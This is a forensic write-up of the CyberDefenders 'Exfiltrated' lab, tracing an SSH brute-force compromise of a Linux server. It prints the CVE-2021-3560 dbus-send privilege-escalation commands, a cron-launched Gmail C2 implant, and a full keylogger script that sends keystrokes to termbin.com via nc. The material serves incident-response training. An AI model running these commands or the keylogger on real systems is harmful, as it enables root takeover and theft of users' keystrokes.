

# Exfiltrated Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/exfiltrated/](https://cyberdefenders.org/blueteam-ctf-challenges/exfiltrated/)

Suggested tools: Forensic Imaging (mount), Wayback Machine, CyberChef, Python

Tactics: Execution, Persistence, Privilege Escalation, Credential Access, Collection, Command and Control, Exfiltration

# Scenario

A Linux server has shown signs of unauthorized access. Authentication logs reveal repeated failed login attempts followed by successful intrusions. The attacker escalated privileges and created backdoors for persistence. Your task is to analyze forensic artifacts, identify entry points, and determine if data exfiltration occurred. Reconstruct the attack timeline and suggest security improvements.

# Questions

Q1- What service did the attacker use to gain access to the system?

Answer: `ssh`

Reason: The attacker gained access via `ssh` against the `chandler` account, using a sustained password brute-force attack from `192.168.196.128` that finally succeeded with `Accepted password for chandler from 192.168.196.128 port 48742 ssh2` at `2021-08-23 20:39:35 UTC`, evidenced by the preceding string of `Failed password` / `unix_chkpwd` denial entries in `/var/log/secure` beginning at `14:03:58 UTC` the same day; a subsequent session at `20:48:44 UTC` shows the attacker returning via `Accepted publickey for chandler`, indicating they planted an SSH key for passwordless persistence after the initial password compromise.

```bash
397:Aug 23 14:03:58 localhost sshd[40322]: Failed password for chandler from 192.168.196.128 port 37070 ssh2
398:Aug 23 14:03:58 localhost sshd[40324]: Failed password for chandler from 192.168.196.128 port 37072 ssh2
399:Aug 23 14:03:58 localhost sshd[40326]: Failed password for chandler from 192.168.196.128 port 37074 ssh2
400:Aug 23 14:03:58 localhost sshd[40318]: Failed password for chandler from 192.168.196.128 port 37068 ssh2
401:Aug 23 14:03:59 localhost unix_chkpwd[40331]: password check failed for user (chandler)
402:Aug 23 14:03:59 localhost unix_chkpwd[40332]: password check failed for user (chandler)
[...]
665:Aug 23 20:39:35 localhost sshd[42744]: Accepted password for chandler from 192.168.196.128 port 48742 ssh2
666:Aug 23 20:39:35 localhost sshd[42744]: pam_unix(sshd:session): session opened for user chandler by (uid=0)
668:Aug 23 20:46:42 localhost sshd[42759]: Disconnected from user chandler 192.168.196.128 port 48742
669:Aug 23 20:46:42 localhost sshd[42744]: pam_unix(sshd:session): session closed for user chandler
670:Aug 23 20:48:44 localhost sshd[43029]: Accepted publickey for chandler from 192.168.196.128 port 48744 ssh2: RSA SHA256:hMkpnF6PyOrGKmWMEz1YWJZPh4La7tt2GlWgyG1cGfc
671:Aug 23 20:48:44 localhost sshd[43029]: pam_unix(sshd:session): session opened for user chandler by (uid=0)
```

Q2- What authentication attack did the attacker use to gain access to the system?

Answer: brute-force

Reason: The attacker used a `brute-force` authentication attack against SSH, submitting rapid successive password guesses for the `chandler` account from `192.168.196.128` beginning at `2021-08-23 14:03:58 UTC`, as shown by the dense run of `Failed password` and `unix_chkpwd` denial entries in `/var/log/secure` immediately preceding the first successful `Accepted password` event at `2021-08-23 20:39:35 UTC`.

Q3- How many users the attacker was able to brute force their password?

Answer: 2

Reason: The attacker successfully brute-forced 2 user accounts via SSH from `192.168.196.128`: `rossatron`, first compromised at `2021-08-23 14:03:10 UTC` after preceding `Failed password` attempts at `14:03:08 UTC`, and `chandler`, compromised shortly after at `2021-08-23 14:03:59 UTC` following `Failed password` attempts at `14:03:58 UTC`, both evidenced in `/var/log/secure`.

```bash
294:Aug 23 14:03:08 localhost sshd[40170]: Failed password for rossatron from 192.168.196.128 port 37058 ssh2
295:Aug 23 14:03:08 localhost sshd[40162]: Failed password for rossatron from 192.168.196.128 port 37056 ssh2
299:Aug 23 14:03:10 localhost sshd[40162]: Accepted password for rossatron from 192.168.196.128 port 37056 ssh2

399:Aug 23 14:03:58 localhost sshd[40326]: Failed password for chandler from 192.168.196.128 port 37074 ssh2
400:Aug 23 14:03:58 localhost sshd[40318]: Failed password for chandler from 192.168.196.128 port 37068 ssh2
403:Aug 23 14:03:59 localhost sshd[40326]: Accepted password for chandler from 192.168.196.128 port 37074 ssh2
```

Q4- When did the attack start?

Answer: `2021-08-23`

Reason: The attack began on `2021-08-23 14:02:04 UTC`, when the earliest brute-force attempt appears in `/var/log/secure` as a `Failed password for invalid user ross` event from `192.168.196.128`, indicating the attacker started by guessing at an account name (`ross`) that did not exist on the system before pivoting to valid usernames.

```bash
$ grep -i "failed password" var/log/secure -n | head -n 1
155:Aug 23 14:02:04 localhost sshd[40134]: Failed password for invalid user ross from 192.168.196.128 port 37028 ssh2
```

Q5- What was the first user account used by the attacker during the attack?

Answer: `chandler`

Reason: The first user account actually used by the attacker was `chandler`, distinguished from the earlier brute-forced `rossatron` account by post-authentication behavior rather than login order alone: `rossatron`'s `.bash_history` contains only benign, user-consistent commands (`nano tasks`, `pslist`, `ps`), whereas `chandler`'s `.bash_history` shows attacker tradecraft, including navigation to `/tmp` and creation of a suspiciously named script `p33333r.sh`, indicating this was the account the attacker operated from following the successful brute-force at `2021-08-23 14:03:59 UTC`.

```bash
root@ip-172-31-27-244:/mnt/logical_mount# cat home/rossatron/.bash_history 
nano tasks
pslist
ps
exit
nano tasks
exit
root@ip-172-31-27-244:/mnt/logical_mount# cat home/chandler/.bash_history 
ls
touch todo]
mv todo] todo
nano todo 
ifconfig
whoami
ls /tmp/
exit
ct todo 
cat todo 
exit
cd /tmp/
nano p33333r.sh
```

Q6- What is the MITRE ID of the technique used by the attacker to achieve persistence?

Answer: T1098.004

Reason: The attacker achieved persistence via `T1098.004` (Account Manipulation: SSH Authorized Keys), planting an SSH public key in `home/chandler/.ssh/authorized_keys` to enable passwordless re-entry independent of the compromised password. Filesystem metadata shows the key file's `Modify` timestamp at `2021-08-24 12:02:46 UTC` and `Change` timestamp at `2021-08-24 12:04:04 UTC`, closely followed by the attacker viewing the planted key via `cat .ssh/authorized_keys` recorded in `chandler`'s `.bash_history`. This aligns with the earlier-observed `Accepted publickey for chandler` SSH login at `2021-08-23 20:48:44 UTC`, confirming the key was used for authenticated persistence rather than left unused.

```bash
root@ip-172-31-27-244:/mnt/logical_mount# stat home/chandler/.bash_history 
  File: home/chandler/.bash_history
  Size: 868       	Blocks: 8          IO Block: 4096   regular file
Device: 70ah/1802d	Inode: 275427      Links: 1
Access: (0600/-rw-------)  Uid: ( 1002/ UNKNOWN)   Gid: ( 1002/ UNKNOWN)
Access: 2021-08-24 12:49:25.922358049 +0000
Modify: 2021-08-24 12:49:25.922358049 +0000
Change: 2021-08-24 12:49:25.922358049 +0000
 Birth: -
root@ip-172-31-27-244:/mnt/logical_mount# stat home/chandler/.ssh/authorized_keys 
  File: home/chandler/.ssh/authorized_keys
  Size: 566       	Blocks: 8          IO Block: 4096   regular file
Device: 70ah/1802d	Inode: 275448      Links: 1
Access: (0600/-rw-------)  Uid: ( 1002/ UNKNOWN)   Gid: ( 1002/ UNKNOWN)
Access: 2021-08-24 12:04:33.828432240 +0000
Modify: 2021-08-24 12:02:46.000000000 +0000
Change: 2021-08-24 12:04:04.600833777 +0000
 Birth: -
root@ip-172-31-27-244:/mnt/logical_mount# grep -i ssh home/chandler/.bash_history 
cat .ssh/authorized_keys
```

Q7- What is the CVE number used by the attacker to escalate his privilege?

Answer: CVE-2021-3560

Reason: The attacker escalated privileges using `CVE-2021-3560` (polkit `pkexec`/`accounts-daemon` authentication bypass via a race condition in `dbus-send` requests to `org.freedesktop.Accounts`), exploiting the flaw that polkit fails to properly validate a caller's authentication when the requesting process disconnects before the async D-Bus call completes. This is evidenced in `chandler`'s `.bash_history`, where the attacker issued a `dbus-send --system --dest=org.freedesktop.Accounts ... CreateUser string:rachel` call immediately followed by `sleep 0.008s ; kill $!` to abort the request mid-flight (the race condition trigger), successfully creating a new privileged user `rachel`, then set its password via a second identical `dbus-send`/`kill` race against `SetPassword`, and finally switched to the new account with `su - rachel`.

```bash
root@ip-172-31-27-244:/mnt/logical_mount# tail home/chandler/.bash_history -n 3
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:rachel string:"Anon" int32:1 & sleep 0.008s ; kill $!; cat /etc/passwd
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1004 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
su - rachel
```

Q8- After gaining more privilege the attacker dropped a backdoor to gain more persistence which receives commands from a Gmail account. What is the email used to send commands?

Answer: `cdefender16@gmail[.]com`

Reason: The attacker planted a second persistence mechanism as `root` via a `@reboot` cron entry in `var/spool/cron/root`, executing `/usr/bin/python2 /usr/bin/c2c.py implant 3133337` on every system boot. This script implements Gmail-based command and control, authenticating to `smtp.gmail.com:587` and `imap.gmail.com` using the account `cdefender16@gmail[.]com`, which the attacker used to send commands to the implant. This was found after the attacker's `rachel` session showed repeated `crontab -e` / `sudo crontab -e` invocations in `home/rachel/.bash_history`, prompting inspection of the resulting crontab and the referenced script.

```bash
$ grep crontab home/rachel/.bash_history
crontab -e
sudo crontab -e
sudo crontab -e
crontab -e

$ cat var/spool/cron/root 
@reboot /usr/bin/python2 /usr/bin/c2c.py implant 3133337

$ grep gmail usr/bin/c2c.py -n
22:username = 'cdefender16@gmail.com'
32:	server = smtplib.SMTP('smtp.gmail.com:587')
58:	mail = imaplib.IMAP4_SSL('imap.gmail.com')
```

Q9- The attacker downloaded a keylogger to capture users' keystrokes. What is the secret word the attacker was able to exfiltrate? Note: Use your host for this question as the machine does not have an internet connection.

Answer: `HAVEAGOOOODDAY`

Reason: The keylogger `etc/xfil.py`, discovered via `home/rachel/xfil.txt` referencing termbin paste `iof5`, captured raw keystrokes from `/dev/input/event1` over a 10-second window and exfiltrated the hex-encoded event data to `termbin.com` via `nc`. Retrieving the archived paste from the Wayback Machine at `https://web.archive.org/web/20210825050145/<https://termbin.com/iof5`> (since the analysis host has no live internet access) and decoding the raw `input_event` structures in CyberChef (isolating `EV_KEY` press events, extracting and byte-swapping the `code` field, then mapping each Linux keycode to its character) recovered the secret word `HAVEAGOOOODDAY`.

Reference: [https://web.archive.org/web/20210825050145/https://termbin.com/iof5](https://web.archive.org/web/20210825050145/https://termbin.com/iof5)

```python
$ cat home/rachel/xfil.txt 
iof5

$ cat etc/xfil.py
```

```python
import subprocess, binascii, hashlib, random, string, time

f = open("/dev/input/event1","rb")
data = ''

rec = time.time()
while time.time() < rec+10:
	data += f.read(24)
f.close()
print("test")
link = subprocess.Popen('echo {} | nc termbin.com 9999'.format(data.encode('hex')), shell=True, stdout=subprocess.PIPE).communicate()[0][20:-2]
print(link)
with open("xfil.txt", "w") as file1:
    # Writing data to a file
    file1.write(link)
    file1.close
```




# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2021-08-23 14:02:04 | Credential Access | SSH brute-force attempts begin from `192.168.196.128`, starting with invalid user `ross` | T1110.001 |
| 2021-08-23 14:03:10 | Initial Access | Brute-force succeeds against `rossatron` (`Accepted password`); account shows only benign post-login activity, not attacker-operated | T1110.001, T1021.004 |
| 2021-08-23 14:03:59 | Initial Access | Brute-force succeeds against `chandler` (`Accepted password`); this is the account the attacker actually operates from | T1110.001, T1021.004 |
| 2021-08-23 20:48:44 | Persistence | Attacker re-authenticates as `chandler` via `Accepted publickey`, confirming a planted SSH key is already in use | T1098.004 |
| 2021-08-24 12:02:46 | Persistence | SSH public key written to `home/chandler/.ssh/authorized_keys` (file `Modify` timestamp) | T1098.004 |
| N/A (bash_history order, no timestamp) | Privilege Escalation | `CVE-2021-3560` exploited: repeated `dbus-send`/`kill` race condition calls to `org.freedesktop.Accounts` create privileged user `rachel` | T1068, T1136.001 |
| N/A (bash_history order, no timestamp) | Credential Access | Second `dbus-send`/`kill` race sets `rachel`'s password; attacker pivots via `su - rachel` | T1136.001 |
| N/A (bash_history order, no timestamp) | Persistence | Root crontab `@reboot` entry added to execute `/usr/bin/python2 /usr/bin/c2c.py implant 3133337` on every boot | T1053.003 |
| N/A (script-derived, no timestamp) | Command and Control | Implant `c2c.py` communicates via Gmail SMTP/IMAP using account `cdefender16@gmail[.]com` | T1071.003 |
| N/A (script-derived, no timestamp) | Collection | Keylogger `etc/xfil.py` captures raw keystroke events from `/dev/input/event1` over a 10-second window | T1056.001 |
| N/A (script-derived, no timestamp) | Exfiltration | Hex-encoded keystroke data uploaded to `termbin.com` paste `iof5` via `nc`; decoded secret word `HAVEAGOOOODDAY` | T1567.002 |

## Attack Tree

```python
[Initial Access]  attacker (`192.168.196.128`) → victim (`ip-172-31-27-244`, RHEL 8.4)
    └── SSH brute-force via `sshd`
        ├── invalid user `ross` guessed first  ← attack start `14:02:04 UTC`
        ├── `rossatron` compromised `14:03:10 UTC`  ← not used by attacker
        └── `chandler` compromised `14:03:59 UTC`  ← attacker's operational account
            ├── [Persistence 1]
            │   └── SSH key planted in `.ssh/authorized_keys`
            │       └── re-login via `Accepted publickey` `20:48:44 UTC`
            └── [Privilege Escalation]
                └── `CVE-2021-3560` polkit/dbus-send race condition
                    └── new privileged user `rachel` created
                        ├── password set via second race condition
                        ├── [Persistence 2]
                        │   └── root cron `@reboot` → `/usr/bin/c2c.py implant`
                        │       └── [C2]
                        │           └── Gmail SMTP/IMAP, `cdefender16@gmail[.]com`
                        └── [Collection]
                            └── keylogger `/etc/xfil.py` reads `/dev/input/event1`
                                └── [Exfiltration]
                                    └── hex-encoded data → `termbin.com` paste `iof5`
                                        └── secret word recovered: `HAVEAGOOOODDAY`
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Initial Access | Attack source IP | `192.168.196.128` |
|  | Brute-forced accounts | `rossatron`, `chandler` |
|  | Service | `sshd` |
| Persistence | SSH key file | `home/chandler/.ssh/authorized_keys` |
|  | Cron persistence | `var/spool/cron/root` (`@reboot /usr/bin/python2 /usr/bin/c2c.py implant 3133337`) |
| Privilege Escalation | CVE | `CVE-2021-3560` (polkit/dbus-send race condition) |
|  | Created account | `rachel` (UID `1004`) |
| Command and Control | C2 script | `/usr/bin/c2c.py` |
|  | C2 email account | `cdefender16@gmail[.]com` |
|  | C2 protocol | `smtp.gmail.com:587`, `imap.gmail.com` |
| Collection | Keylogger script | `/etc/xfil.py` |
|  | Input device | `/dev/input/event1` |
| Exfiltration | Exfil method | `termbin.com` (paste-based, via `nc`) |
|  | Exfil reference | `home/rachel/xfil.txt` → paste ID `iof5` |
|  | Recovered secret | `HAVEAGOOOODDAY` |
| Host Indicators | OS | RHEL 8.4 "Ootpa" |
|  | Hostname | `ip-172-31-27-244` |

# Lab Insights

- **A successful login is not evidence of compromise.** `rossatron` was brute-forced first and successfully, yet its `.bash_history` shows only routine account-owner activity. Login success/failure logs alone can't distinguish attacker activity from a coincidentally-weak-but-legitimate account; post-authentication behavior (commands run, files touched) is what actually separates a victim account from the attacker's operational foothold.
- **Local privilege escalation increasingly exploits logic races, not memory corruption.** `CVE-2021-3560` is not a buffer overflow or injection bug — it's a timing race in how `polkit` validates an async D-Bus caller before a request completes. This class of vulnerability leaves almost no artifact beyond command history (`dbus-send ... & sleep ...; kill $!`), meaning detection has to rely on recognizing the *pattern* of the exploit technique in shell history rather than a single suspicious binary or payload.
- **Legitimate cloud/consumer services make effective, low-visibility C2 and exfil channels.** Both persistence mechanisms here rode on infrastructure that looks completely normal in network traffic: Gmail SMTP/IMAP for command delivery, and a public developer pastebin (`termbin.com`) for data exfiltration. Neither requires attacker-controlled infrastructure, and both blend into background traffic that most network monitoring wouldn't flag as anomalous by destination alone.
- **Raw input-device access bypasses userland keylogger detections.** Reading directly from `/dev/input/eventX` captures keystrokes below the application layer, evading any keylogger detection that hooks higher-level APIs (X11 event hooks, `LD_PRELOAD` injection into terminal apps, etc.). This is a reminder that "no known keylogger process" doesn't mean no keylogging occurred — device-level access needs its own detection logic (permissions/usage auditing on `/dev/input/*`).
- **Offline analysis hosts still have internet-era investigative options.** With the analysis VM airgapped, the Wayback Machine's archive of the `termbin.com` paste was the only way to recover the exfiltrated data, since the live paste had long expired. Building OSINT/archive lookups into a DFIR workflow matters even when the evidence host itself has no connectivity — the artifact's *reference* (a URL, a paste ID) can outlive the live resource it pointed to.